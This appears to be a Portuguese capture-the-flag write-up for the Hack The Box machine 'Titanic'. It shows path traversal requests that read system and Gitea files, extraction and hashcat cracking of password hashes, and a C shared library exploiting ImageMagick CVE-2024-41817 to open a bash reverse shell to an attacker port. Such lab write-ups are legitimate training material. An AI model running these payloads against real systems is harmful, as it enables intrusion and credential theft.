










## Introdução

Titanic é uma máquina Linux classificada como easy no Hack The Box, que envolve a exploração de uma vulnerabilidade de Path Traversal em uma aplicação Flask e análise de configurações do Gitea para escalação de privilégios

## Coleta de Informações

### Reconhecimento Ativo

Iniciamos com um scan de portas para identificar serviços disponíveis:



### Enumeração

Realizamos enumeração de subdomínios (virtual hosts):

```bash
ffuf -H "Host: FUZZ.titanic.htb"  -w "/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt" -u http://titanic.htb/ -t 100 -fl 10
```



Após descobrir o subdomínio `dev.titanic.htb`, adicionamos ao arquivo `/etc/hosts` e acessamos via navegador.

## Acesso Inicial

Na instância Gitea, encontramos dois repositórios importantes:
- `docker-config`: Contém configurações Docker do Gitea e MySQL
- `flask-app`: Contém a aplicação web vulnerável

No repositório `flask-app`, identificamos uma vulnerabilidade de Path Traversal na função `download_ticket()` na rota `/download`.



O repositório `docker-config` revelou o path `/home/developer/gitea/data:/data` usado nas configurações do Gitea.



## Post Exploitation

Utilizando a vulnerabilidade de Path Traversal, conseguimos extrair o passwd do sistema:

```bash
wget 'http://titanic.htb/download?ticket=../../../../../../../etc/passwd' -O passwd.txt
```


## Escalação de Privilégios

[Documentação Gitea:](https://docs.gitea.com/administration/config-cheat-sheet)

Lendo a documentação do Gitea, podemos identificar a localização padrão dos arquivos de configuração. O arquivo de configuração é salvo em `etc/gitea/conf/app.ini`; após a instalação, podemos utilizar o caminho `/home/developer/gitea/data:/data` (recuperado anteriormente) para localizar o arquivo `app.ini`.


(No momento da escrita deste writeup, estes posts estão indisponíveis.)

1. Extraímos o arquivo de configuração:
```bash
wget 'http://titanic.htb/download?ticket=../../../../../../../home/developer/gitea/data/gitea/conf/app.ini' -O app.ini
```

2. Obtivemos o banco de dados:
```bash
wget 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db' -O gitea.db
```

3. Extraímos informações de usuários:
```sql
sqlite3 gitea.db "select * from user"
sqlite3 gitea.db "select name, passwd_hash_algo, passwd, salt from user"
```



Após conseguimos o hash do usuário, podemos pesquisar maneiras de quebrar o PBKDF2 utilizando hashcat. Alguns posts que tratam do assunto são:
- https://hashcat.net/forum/thread-7854.html
- https://hashcat.net/forum/thread-8391-post-44775.html#pid44775

Após obtermos o hash do usuário, precisamos formatá-lo adequadamente para o hashcat. Para isso, solicitei o chatgpt para gerar um script que extrai e formata as informações no padrão que precisamos do banco de dados SQLite:

```python
import sqlite3
import base64

# Conectar ao banco de dados SQLite
conn = sqlite3.connect("gitea.db")
cursor = conn.cursor()

# Executar a query para obter os dados necessários
cursor.execute("SELECT passwd, salt, name FROM user WHERE name = 'developer'")


with open("gitea.hashes", "w") as f:
    for passwd_hex, salt_hex, name in cursor.fetchall():
        # Converter de hexadecimal para bytes e depois para Base64
        passwd_b64 = base64.b64encode(bytes.fromhex(passwd_hex)).decode()
        salt_b64 = base64.b64encode(bytes.fromhex(salt_hex)).decode()

        # Formatar no padrão Hashcat
        hashcat_entry = f"{name}:sha256:50000:{salt_b64}:{passwd_b64}"

        
        print(hashcat_entry)
        f.write(hashcat_entry + "\n")

conn.close()
```

Com o hash formatado corretamente, podemos então usar o hashcat para quebrá-lo:

4. Quebramos o hash usando hashcat:

```bash
hashcat -m 10900 -w 3 gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show --user
```

5. Agora podemos acessar a máquina com as credenciais de "developer", e coletamos a primeira flag.



6. Poderíamos executar o linpeas para identificar as possibilidades de escalonamento de privilégios, porém nesse caso listaremos apenas os diretórios graváveis pelo nosso usuário.

```bash
find / -type d -writable 2>/dev/null
```


7. Ao explorar os diretórios /opt/scripts, podemos identificar um script.



O script parece utilizar o ImageMagick para identificar imagens no diretórios `/opt/app/static/assets/images` e grava a saída no arquivo metadata.log.

8. Podemos verificar a versão do ImageMagick para procurar por vulnerabilidades. Pesquisando no google encontramos a CVE-2024–41817 que podemos utilizar para escalar privilégio e coletar a flag de root.



Na nossa máquina local, iremos ficar escutando na porta 4444, pois é a porta que iremos configurar na biblioteca compartilhada que executará nossa shell reversa.

```bash
sudo nc -nlvp 4444
```

No diretório do nosso usuário "developer", iremos criar a biblioteca que nos concedera o acesso root.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    system("/bin/bash -c '/bin/bash -i >& /dev/tcp/VPN-IP/4444 0>&1'");
    exit(0);
}
EOF
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm
```

Acesse o diretório de root e colete a flag.



## Conclusão
Este exercício demonstrou a exploração da vulnerabilidade de Path Traversal para extração de dados sensíveis e o aproveitamento de configurações vulneráveis do Gitea para escalonamento de privilégios. A exploração da vulnerabilidade no ImageMagick [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) permitiu a execução de código levando a flag de root.

## Referências
 - [Hack The Box](https://app.hackthebox.com/home)
 - [ImageMagick CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
 - [Documentação do Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)
 - [Documentação Gitea](https://docs.gitea.com/administration/config-cheat-sheet)
